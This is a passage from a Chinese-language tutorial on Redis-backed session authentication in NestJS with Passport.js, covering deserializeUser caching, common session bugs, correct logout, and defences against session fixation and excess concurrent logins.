**Session 创建时机**：用户成功登录，`serializeUser` 被调用后，Session 被写入 Redis，Cookie 被下发给浏览器。

**Session 续期**：每次请求时，`express-session` 可以自动延长 Session 在 Redis 中的 TTL（通过 `rolling: true` 选项），确保活跃用户不会因为 Session 过期而被迫重新登录。

**Session 销毁**：两种方式——用户主动注销（`req.session.destroy()`）或 Redis TTL 自然过期。

### `deserializeUser` 的性能优化

`deserializeUser` 在每个认证请求中都会执行一次数据库查询，这在高并发场景下可能成为性能瓶颈。有几种优化策略：

#### 策略一：在 Session 中缓存用户数据

将用户信息直接存在 Session 中，避免每次请求都查询数据库：

```typescript
// serializeUser：存储更多信息
serializeUser(user: PublicUser, done: Function) {
  // 将轻量版用户对象存入 Session
  done(null, {
    id: user.id,
    email: user.email,
    isVerified: user.isVerified,
  });
}

// deserializeUser：直接从 Session 返回，不查询数据库
deserializeUser(sessionUser: { id: string; email: string; isVerified: boolean }, done: Function) {
  done(null, sessionUser); // 直接返回 Session 中的数据
}
```

**代价**：如果用户信息被修改（如改了邮箱、被封号），Session 中的缓存不会立即更新，需要等 Session 过期或重新登录后才能反映新状态。对于封号场景，这是不可接受的——你需要一种机制让已存在的 Session 立即失效（见下一节"会话管理"）。

#### 策略二：应用层 Redis 缓存

不修改 Session 的存储结构，而是在 `deserializeUser` 查询数据库时，先经过一层 Redis 缓存：

```typescript
async deserializeUser(id: string, done: Function) {
  const cacheKey = `user:${id}`;
  const cached = await this.redis.get(cacheKey);

  if (cached) {
    return done(null, JSON.parse(cached));
  }

  const user = await this.usersRepository.findById(id);
  if (user) {
    // 缓存 5 分钟，兼顾性能与数据一致性
    await this.redis.setEx(cacheKey, 300, JSON.stringify(user));
  }

  done(null, user);
}
```

这种方案在性能和一致性之间取得了平衡：用户信息的更新最多延迟 5 分钟生效，而不是等整个 Session 过期。

## 常见问题与解决方案

### 问题一：Session 在生产环境中频繁丢失

**症状**：用户反映需要频繁重新登录，但 Session 的过期时间设置的很长。

**排查思路**：

**1. Cookie 的 `Secure` 与 `SameSite` 配置冲突**

如果 `Secure: true` 但网站是 HTTP 访问，Cookie 无法被发送。检查：

```typescript
// 确保生产环境有 HTTPS
secure: process.env.NODE_ENV === 'production',
```

**2. 跨域场景下 Cookie 未携带**

前后端跨域时（如前端在 `app.com`，API 在 `api.app.com`），需要：

```typescript
// 前端 fetch/axios 请求必须带 credentials
fetch('/api/profile', { credentials: 'include' });
// axios
axios.defaults.withCredentials = true;

// NestJS 后端必须开启 CORS，且指定具体的 origin（不能用 *）
app.enableCors({
  origin: 'https://app.com',
  credentials: true, // 允许携带 Cookie
});

// Cookie 必须设置 SameSite=None; Secure（跨域场景）
cookie: {
  sameSite: 'none',
  secure: true,
},
```

**3. Redis 连接不稳定**

Session 保存失败时，`express-session` 会静默失败（不 crash），导致 Session 被创建但实际未保存到 Redis。检查 Redis 连接状态：

```typescript
client.on('error', (err) => {
  // 确保错误被记录，而不是被静默忽略
  console.error('Redis Session Store Error:', err);
});
```

**4. `resave: false` 与 Redis TTL 的交互问题**

`resave: false` 意味着如果请求过程中没有修改 Session，Session 不会被重新保存（也不会续期）。如果你希望每次请求都自动续期 Session 的 TTL，应该使用 `rolling: true`：

```typescript
session({
  // ...
  rolling: true, // 每次请求都自动续期 Session（重置 TTL）
  resave: true, // rolling=true 时需要 resave=true 才能触发保存
});
```

### 问题二：`req.user` 在守卫中为 undefined

**症状**：在使用 `SessionAuthGuard` 的路由中，`req.user` 是 `undefined`，即使用户已经登录。

**可能原因**：

**1. 中间件顺序错误**

`passport.session()` 必须在 `session()` 之后，否则 Passport 无法读取 Session 数据：

```typescript
// ✅ 正确顺序
app.use(session({ ... }));
app.use(passport.initialize());
app.use(passport.session()); // 必须在 session 之后

// ❌ 错误顺序
app.use(passport.session()); // 此时还没有 session 中间件，无法工作
app.use(session({ ... }));
```

**2. `saveUninitialized: false` 导致 Session 未保存**

如果 `saveUninitialized: false`，而你在登录接口中忘记调用 `req.logIn()`，Session 不会被初始化和保存，后续请求自然找不到 Session。

检查 `LocalAuthGuard` 中是否有 `super.logIn(request)` 的调用：

```typescript
async canActivate(context: ExecutionContext): Promise<boolean> {
  const result = (await super.canActivate(context)) as boolean;
  const request = context.switchToHttp().getRequest();
  await super.logIn(request); // 必须调用，触发 Session 序列化
  return result;
}
```

**3. `deserializeUser` 中数据库查询失败**

如果 `deserializeUser` 执行过程中抛出错误，Passport 会静默处理（将 `req.user` 设为 `undefined`），不会因此报 500 错误。检查 `deserializeUser` 是否有错误处理，以及数据库连接是否正常。

### 问题三：注销后 Cookie 仍然有效

**症状**：调用注销接口，服务器返回成功，但浏览器再次发请求时，用 Session Cookie 仍然可以认证通过。

**原因**：注销接口只清除了服务器端的 Session，但没有清除浏览器的 Cookie，或者 Cookie 虽然被清除了，但有其他 Session ID 仍然有效。

**正确的注销实现**：

```typescript
// src/auth/auth.controller.ts
@Post('logout')
@UseGuards(SessionAuthGuard)
async logout(@Req() req: Request, @Res() res: Response) {
  req.session.destroy((err) => {
    if (err) {
      return res.status(500).json({ message: '注销失败' });
    }

    // 清除浏览器的 Cookie（通过设置 Max-Age=0 或 Expires 为过去的时间）
    res.clearCookie('sessionId', {
      httpOnly: true,
      secure: process.env.NODE_ENV === 'production',
      sameSite: 'lax',
      path: '/',
    });

    res.json({ message: '注销成功' });
  });
}
```

`req.session.destroy()` 会从 Redis 中删除当前 Session 记录；`res.clearCookie()` 会通过设置 `Max-Age=0` 通知浏览器删除对应的 Cookie。两者都必须执行。

### 问题四：Session 固定攻击（Session Fixation）

**症状**：攻击者事先获得了一个有效的 Session ID（例如通过某种方式预测或窃取），然后诱骗用户使用这个 Session ID 登录，登录后攻击者持有这个 Session ID，即可以用户身份操作。

**防御**：登录成功后，强制重新生成 Session ID，而不是复用登录前的 Session ID：

```typescript
// 在 LocalAuthGuard 或登录接口中
async canActivate(context: ExecutionContext): Promise<boolean> {
  const result = (await super.canActivate(context)) as boolean;
  const request = context.switchToHttp().getRequest();

  // 登录成功后重新生成 Session ID（防御 Session Fixation）
  await new Promise<void>((resolve, reject) => {
    const oldSession = { ...request.session };
    request.session.regenerate((err) => {
      if (err) return reject(err);
      // 将旧 Session 数据迁移到新 Session
      Object.assign(request.session, oldSession);
      resolve();
    });
  });

  await super.logIn(request);
  return result;
}
```

`express-session` 的 `session.regenerate()` 会：

1. 销毁 Redis 中旧的 Session 记录
2. 生成一个全新的 Session ID
3. 用新的 Session ID 创建新的 Session
4. 向浏览器下发新的 Cookie

攻击者持有的旧 Session ID 在这一刻失效，即使他之前获得了 Session ID 也无法利用。

### 问题五：多设备并发登录的控制

**场景**：用户在电脑上登录后，又在手机上登录，你希望限制同一账号最多同时有效 3 个 Session。

**实现思路**：

在 Redis 中维护一个用户-Sessions 的映射关系：

```typescript
// 登录时：记录用户的 Session 列表
async onLogin(userId: string, sessionId: string) {
  const key = `user:sessions:${userId}`;

  // 将新 Session 加入列表
  await this.redis.lPush(key, sessionId);

  // 获取当前所有 Session
  const sessions = await this.redis.lRange(key, 0, -1);

  // 如果超过最大数量，删除最老的 Session
  const MAX_SESSIONS = 3;
  if (sessions.length > MAX_SESSIONS) {
    const oldestSessionId = sessions[sessions.length - 1];
    await this.redis.del(`sess:${oldestSessionId}`);
    await this.redis.rPop(key);
  }

  // 设置映射关系的过期时间（与 Session 保持一致）
  await this.redis.expire(key, 24 * 60 * 60);
}
```

这个话题将在模块二第 4 篇《会话管理》中详细展开。

## 本篇小结

本篇系统地讲解了 Session 认证机制的所有核心组件：

**Cookie 安全属性**：

- `HttpOnly` 阻止 JavaScript 读取 Cookie，防御 XSS 导致的 Session 劫持
- `Secure` 确保 Cookie 只通过 HTTPS 传输，防御中间人攻击
- `SameSite=Lax` 是现代 Web 应用的合理默认值，防御 CSRF 的同时保持良好用户体验
- `SameSite=None; Secure` 用于跨域共享 Cookie 的场景，需要配合 CORS 配置

**Redis Session 存储**：

- 内存存储（MemoryStore）只适合开发环境，生产环境必须使用外部存储
- Redis 凭借速度快、持久化、TTL 机制和水平扩展能力，是 Session 存储的最佳选择
- `saveUninitialized: false` 和 `resave: false` 是减少 Redis 负担的重要配置

**Passport.js 集成**：

- `LocalStrategy.validate()` 负责用户名密码验证，返回用户对象触发 Session 序列化
- `serializeUser` 在登录时执行，将最小量数据（通常是 `userId`）存入 Session
- `deserializeUser` 在每个认证请求执行，根据 Session 中的 `userId` 恢复完整用户对象到 `req.user`
- `LocalAuthGuard` 触发 Local 策略认证并完成 Session 序列化；`SessionAuthGuard` 检查请求是否已认证

**安全加固**：

- 时序攻击防御：用户不存在时执行虚拟哈希验证，让响应时间与密码错误场景一致
- Session Fixation 防御：登录成功后调用 `session.regenerate()` 强制生成新 Session ID
- 正确的注销实现：同时销毁服务器端 Session 和浏览器端 Cookie

在下一篇 **注册登录 API** 中，我们将把本篇的所有组件组装成完整的注册和登录接口，并实现参数校验（Zod）和标准化的错误处理。
